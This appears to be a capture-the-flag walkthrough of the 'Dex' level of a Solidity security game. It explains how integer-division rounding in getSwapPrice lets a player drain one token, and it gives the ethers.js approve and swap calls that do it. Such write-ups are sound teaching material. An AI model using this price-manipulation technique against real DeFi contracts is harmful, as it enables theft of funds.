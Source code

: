[Attack Contract](./contracts/Shop.sol) | [Test script](./test/Shop.test.js)

## 22 - Dex

To beat this level we need to drain one of the tokens(`token1` - `token2`) from the Dex contract.<br />
After inspecting the contract's code, we notice that the method `getSwapPrice` determines the exchange rate between tokens in the Dex
```solidity
function getSwapPrice(address from, address to, uint amount) public view returns(uint){
   return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
}
```
**The division won't always calculate a perfect integer**, but a fraction. And in Solidity, there's no fraction, instead the division rounds toward zero(example: 3/2 = 1). Hence, the vulnerability originates from this method.<br>

To drain one of the tokens, we will swap all of our `token1` to `token2`, then swap all of our `token2` to `token1`, and so on.
Here's the balance & price history 
|        | Contract |        | Player |
|--------|----------|--------|--------|
| Token1 | Token2   | Token1 | Token2 |
| 100    | 100      | 10     | 10     |
| 110    | 90       | 0      | 20     |
| 86     | 110      | 24     | 0      |
| 110    | 80       | 0      | 30     |
| 69     | 110      | 41     | 0      |
| 110    | 45       | 0      | 65     |
| 0      | 90       | 110    | 20     |

For the last swap, from token2 to token1, and after a simple math equation, swapping `45` tokens of `token2` is enough to drain all the `110` tokens of `token1`.

Here are the swap transactions using `ethers.js`:
First, we need to call the `approve` function to allow the contract to transfer all of our tokens with an enough allowance, so we don't have to approve again on each transaction:
```javascript
tx = await dex.approve(dex.address, 400)
await tx.wait()
```
```javascript
tx = await dex.swap(token1.address, token2.address, 10)
await tx.wait()

tx = await dex.swap(token2.address, token1.address, 20)
await tx.wait()

tx = await dex.swap(token1.address, token2.address, 24)
await tx.wait()

tx = await dex.swap(token2.address, token1.address, 30)
await tx.wait()

tx = await dex.swap(token1.address, token2.address, 41)
await tx.wait()

tx = await dex.swap(token2.address, token1.address, 45)
await tx.wait()
```
